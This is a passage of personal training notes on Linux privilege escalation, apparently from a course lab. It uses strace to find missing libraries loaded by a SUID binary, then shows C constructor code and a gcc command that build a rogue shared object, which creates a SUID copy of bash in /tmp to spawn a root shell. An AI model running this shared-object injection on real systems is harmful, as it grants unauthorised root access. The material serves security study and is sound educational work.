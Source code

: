 strace /usr/local/bin/suid-so 2&>1 | grep -i -E "open|access|no such file"

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/31.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/31.png)
Malicious code

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p");
}
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/32.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/32.png)

```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcal.c 
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/33.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/33.png)
# Escalation via Environmental Variable

To look at enviromnetal variable

```shell
env
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/34.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/34.png)